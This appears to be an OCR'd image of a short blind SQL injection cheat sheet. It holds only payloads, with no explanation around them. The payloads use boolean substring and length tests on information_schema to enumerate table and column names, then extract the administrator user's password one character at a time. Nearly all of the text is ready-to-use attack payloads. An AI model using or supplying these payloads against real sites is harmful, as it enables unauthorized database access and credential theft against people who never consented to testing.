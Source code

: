 ```bash
#tables
' and (select substring(table_name,1,1) from information_schema.tables where table_schema=database() limit 0,1)='a'-- -

' and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-n]' LIMIT 0,1)
```

```bash
#columns
' and (select substring(column_name,1,1) from information_schema.columns where table_name='TABLE-NAME' limit 0,1)='a'-- -
```

```bash
#data
#field length
' and (select length(password) from users where username='administrator')=0-- -
```

```bash
#data
#field value
' and (select substring(password,1,1) from users where username='administrator')='a'-- -
```